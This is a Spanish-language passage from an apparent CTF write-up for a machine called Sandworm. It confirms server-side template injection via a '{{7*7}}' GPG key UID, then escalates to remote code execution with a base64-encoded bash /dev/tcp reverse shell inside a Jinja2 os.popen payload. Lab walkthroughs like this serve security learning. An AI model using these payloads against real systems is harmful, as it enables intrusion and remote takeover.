 Para terminar le damos **save** para guardar cambios, volvemos a generar la clave, firmamos un texto y probamos en el sitio web

```ruby
gpg --armor --export "{{7*7}} <GuxFiz@email.com>" | sponge pubkey.asc
```

```ruby
echo 'nazuna besto waifu' | gpg --clear-sign
```

Observa como en la respuesta sale un **49**

![](/assets/img/sandworm/8.png)

Eso quiere decir que la operacion se realizo por que el motor de plantillas proceso el payload e inyecto el resultado en la plantilla para luego mostrarlo en el sitio web, y con eso confirmamos que es vulnerable a **SSTI**


Ahora haremos lo mismo de modificar el UID, generar la clave, etc, para conseguir RCE y tener una rev shell


```ruby
echo "bash -c 'bash -i >& /dev/tcp/<tu IP>/444 0>&1'" | base64
```

Y el payload queda asi:

![](/assets/img/sandworm/10.png)

\{\{ self.__init__.__globals__.__builtins__.__import__('os').popen('echo "YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC45NS80NDQgMD4mMScK" | base64 -d | bash').read() }}
